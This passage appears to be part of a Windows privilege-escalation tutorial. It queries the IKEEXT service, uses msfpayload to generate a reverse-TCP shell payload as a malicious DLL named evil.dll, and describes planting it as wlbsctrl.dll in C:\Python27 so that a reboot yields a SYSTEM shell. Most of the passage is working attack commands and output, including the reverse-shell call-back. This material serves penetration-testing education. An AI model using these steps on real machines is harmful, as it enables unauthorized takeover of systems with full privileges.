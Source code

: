 C:\Users\user1\Desktop> sc qc IKEEXT

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: IKEEXT
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : IKE and AuthIP IPsec Keying Modules
        DEPENDENCIES       : BFE
        SERVICE_START_NAME : LocalSystem


 

Now we know the necessary conditions are met we can generate a malicious DLL and pop a shell!

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O

       Name: Windows Command Shell, Reverse TCP Inline
     Module: payload/windows/shell_reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 314
       Rank: Normal

Provided by:
  vlad902 <vlad902@gmail.com>
  sf <stephen_fewer@harmonysecurity.com>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique: seh, thread, process, none
LHOST     127.0.0.1        yes       The listen address
LPORT     9988             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > 
/root/Desktop/evil.dll

Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell_reverse_tcp
 Length: 314
Options: {"lhost"=>"127.0.0.1", "lport"=>"9988"}


 

After transferring the DLL to our target machine all we need to do is rename it to wlbsctrl.dll and move it to "C:\Python27". Once this is done we need to wait patiently for the machine to be rebooted (or we can try to force a reboot) and we will get a SYSTEM shell.
